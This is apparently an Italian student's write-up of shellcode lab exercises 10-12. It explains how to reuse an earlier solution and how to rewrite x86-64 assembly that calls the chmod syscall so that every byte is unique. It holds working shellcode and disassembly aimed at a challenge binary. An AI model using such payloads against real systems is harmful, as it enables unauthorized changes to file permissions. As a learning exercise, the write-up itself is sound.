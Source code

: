 ```
    pop rsi
    #syscall 90
    push 0x5a
    pop rax

    syscall

```

## Esercizio 10
L'esercizio prevede di stare attenti "This challenge just sorted your shellcode using bubblesort. Keep in mind the impact of memory endianness on this sort" 
Non l'ho capito a fondo, in quanto eseguendo il codice per l'esercizio 8 come debug di test si è risolto l'esercizio

## Esercizio 11
Questo esercizio dovrebbe avere la stessa dinamica dell'esercizio precedente, con l'aggiunta di non poter utilizzare output perchè bloccati.
Anche per questo esercizio basta eseguire la soluzione dell'esercizio 8 per risolvere.

## Esercizio 12
Quest'altro esercizio dovrebbe essere più complicato di quelli precedenti ma si risolve sempre basandosi sul metodo dell'esercizio 8.
Infatti quello che viene richiesto è che ogni byte sia unico nello shellcode. 
Analizzando lo shellcode attuale dell'esercizio 8 avremo 
```
0000000000401000 <_start>:
  401000:       68 61 62 63 00          push   0x636261
  401005:       54                      push   rsp
  401006:       5f                      pop    rdi
  401007:       6a 06                   push   0x6
  401009:       5e                      pop    rsi
  40100a:       6a 5a                   push   0x5a
  40100c:       58                      pop    rax
  40100d:       0f 05                   syscall
```
Si può notare che stiamo eseguendo la `push` 2 volte, per cui si usa lo stesso byte 2 volte, basterà sostituire `push` con `mov` facendo attenzione al registro, infatti
se utilizziamo `mov rsi, 6` utilizzeremo 64 bit, di cui 48 nulli per cui il programma leggendo un altro byte 0 terminerà, bensì dovremo usare `mov sil, 6` così da modificare solo gli ultimi 8 bit per non ripetere byte nulli.
Il codice quindi sarà così
```
.intel_syntax noprefix
.global _start

_start:

    #file
    #0x653231 -> file "12e" 
    push 0x653231
    push rsp
    pop rdi
    
    #mode 
    mov sil, 6
    #syscall 90
    push 0x5a
    pop rax

    syscall
```